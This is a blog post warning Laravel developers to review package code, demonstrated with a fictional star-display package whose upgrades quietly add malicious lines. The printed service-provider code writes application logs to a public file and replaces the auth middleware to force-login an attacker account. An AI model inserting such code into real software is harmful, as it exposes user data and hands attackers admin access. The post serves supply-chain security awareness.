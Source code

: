 ```yaml
---
layout: post
title: Remember to Review Your Package Code for Security
tags:
- php
- laravel
- security
---
```

Open source software is wonderful for many reasons.  One of the best is we can see and inspect the software for vulnerabilities.  But, far too many people actually do this.  Let me demonstrate, using a Laravel package, how this lack of review might backfire and cause you grief.

> It's important to note that this attack vector is not solely a problem with Laravel.  A lot of projects and code are configured to trust libraries from the package providers.

### My Initial Set Up

I have a website on which I sell shoes.  For example, I have this extremely boring listing for a pair of flip flops:

[![Text-based Stars](/uploads/2019/security-demo-1.thumbnail.png)](/uploads/2019/security-demo-1.png){: .thumbnail}

I'd like to add icon-style stars to the rating.  I heard about this awesome package that allows me to use a Blade directive to do that.  Seems like a nice way to save some time.  The following command is ran:

```bash
composer require aaronsaray/laravel-star-display
```

Before you know it, I have a new Blade helper - yay!  Now, I can write the code like this in my blade file:

```html
<strong>Rated:</strong> @stars(5)
```

I get a nice view like this:

[![UTF8-Icon-based Stars](/uploads/2019/security-demo-2.thumbnail.png)](/uploads/2019/security-demo-2.png){: .thumbnail}

This is great! Moving on!

**Well, there's a problem.**  I didn't look at the code that I just installed.  This package injects its code by registering an auto-discovered service provider for Laravel.  This ease of use/installation is also what makes it easy for this to take advantage of my website.

Let's take a look at the code in the package's service provider:

```php
<?php
namespace AaronSaray\StarDisplay;

use Illuminate\Support\Facades\Blade;
use Illuminate\Support\ServiceProvider;

class StarDisplayServiceProvider extends ServiceProvider
{
    public function boot(): void
    {
        Blade::directive('stars', function ($stars) {
            return "<?= str_repeat('🌟', $stars) ?>";
        });
    }
}
```

Whew - I dodged a bullet!  This package has no malicious code

### It's Upgrade Season

There's an upgrade for this package.  It probably gives me more features or makes it more efficient? I don't have time to check into this.  So, the package gets updated.  Everything seems to be working fine.  However, during this upgrade, the service provider has changed (and I didn't notice).  There's a new line:

```php
<?php
namespace AaronSaray\StarDisplay;

use Illuminate\Support\Facades\Blade;
use Illuminate\Support\ServiceProvider;

class StarDisplayServiceProvider extends ServiceProvider
{
    public function boot(): void
    {
        Blade::directive('stars', function ($stars) {
            return "<?= str_repeat('🌟', $stars) ?>";
        });
        
        app()
          ->make('log')
          ->pushHandler(
            new \Monolog\Handler\StreamHandler(public_path('/secret-log.txt'))
          );
    }
}
```

This code is accessing the Monolog `Logger` instance and adding another stream handler to it.  It's writing my log data to a public directory.  Later on, the "bad guy" can surf to `http://my-site.com/secret-log.txt` and see a copy of all my application logs.

Not a big deal? You never know... you might have a log entry like:

`logger('User sensitive information here.')`

or the application could be configured to log errors.  These stack traces could include passwords and secret keys.

### Another Upgrade

Just by downloading this newly publicly available log file, the attacker has useful information about my users and app.  But, the fact that the log even exists indicates that I use their package and don't care about reviewing it for security.

Imagine I have this very simple admin interface:

```php?start_inline=1
Route::get('admin', function () {
    return view('admin');
})->middleware('auth');
```

When you surf to `http://my-site.com/admin` you must be authenticated.  Otherwise, you're redirected.  This is because of the `auth` middleware.  Cool!

The new Star Display package upgrade introduces new code, however.  See if you can spot what's going to happen.

```php
<?php
namespace AaronSaray\StarDisplay;

use Illuminate\Support\Facades\Blade;
use Illuminate\Support\ServiceProvider;

class StarDisplayServiceProvider extends ServiceProvider
{
    public function boot(): void
    {
        Blade::directive('stars', function ($stars) {
            return "<?= str_repeat('🌟', $stars) ?>";
        });
        
        app()
          ->make('log')
          ->pushHandler(
            new \Monolog\Handler\StreamHandler(public_path('/secret-log.txt'))
          );
          
        app()->instance(Authenticate::class, function ($request, $next) {
          $badGuyUser = User::where('email', 'bad@guy.com')->first();
          Auth::login($badGuyUser);
          return $next($request);
        });
    }
}
```

In this code, the bad guy replaces the `Authenticate` (which is aliased to `auth`) middleware with an inline closure.  When we check `auth`, instead of running any sort of checks, this code just grab the bad guy user and force them to be logged in.

### End Notes

These were some pretty contrived examples, but it should illustrate the point. I wanted to demonstrate how it's important for us all to read the code before we install and upgrade packages.  Through these demonstrations, I hope to have shown that a pretty unskilled attacker can compromise your website with just a few lines of code in Laravel.

Again, these attacks are not limited to Laravel.  Something similar to this just happened with [NPM packages](https://www.theregister.co.uk/2018/11/26/npm_repo_bitcoin_stealer/).